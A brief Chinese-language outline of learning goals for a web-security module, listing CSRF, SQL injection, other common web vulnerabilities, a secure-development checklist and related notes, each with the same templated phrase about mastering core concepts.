- **CSRF（跨站请求伪造）**：掌握本模块的核心概念与关键要点
- **SQL 注入**：掌握本模块的核心概念与关键要点
- **其他常见 Web 安全漏洞**：掌握本模块的核心概念与关键要点
- **安全开发检查清单**：掌握本模块的核心概念与关键要点
- **关联笔记**：掌握本模块的核心概念与关键要点

